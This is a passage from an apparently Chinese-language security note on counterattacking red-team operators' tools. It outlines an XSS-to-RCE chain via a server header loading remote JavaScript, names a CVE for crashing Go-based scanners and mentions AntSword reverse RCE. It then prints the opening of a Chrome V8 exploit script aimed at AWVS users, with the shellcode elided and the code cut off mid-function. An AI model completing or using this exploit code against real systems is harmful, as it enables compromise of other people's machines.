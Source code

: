 2. 服务端返回一个header插入xss引用远程js文件

3. 远程js文件里插入完整的执行代码

4. 攻击队成员点击详情触发xss，最后rce

### go的扫描器反制
xray和goby等使用go写的工具扫描时会崩溃
https://github.com/alexzorin/cve-2021-34558

### 蚁剑反向rce
比较老

### awvs反制
利用chrome的0 day漏洞，之前awvs测试没成功，可能对14以下有影响
```
ENABLE_LOG = true;
IN_WORKER = true;

// run calc and hang in a loop
var shellcode = [
  xxx
];

function print(data) {
}


var not_optimised_out = 0;
var target_function = (function (value) {
    if (value == 0xdecaf0) {
        not_optimised_out += 1;
    }
    not_optimised_out += 1;
    not_optimised_out |= 0xff;
    not_optimised_out *= 12;
});

for (var i = 0; i < 0x10000; ++i) {
    target_function(i);
}


var g_array;
var tDerivedNCount = 17 * 87481 - 8;
var tDerivedNDepth = 19 * 19;

function cb(flag) {
    if (flag == true) {
        return;
    }
    g_array = new Array(0);
    g_array[0] = 0x1dbabe * 2;
    return 'c01db33f';
}

function gc() {
    for (var i = 0; i < 0x10000; ++i) {
        new String();
    }
}

function oobAccess() {
    var this_ = this;
```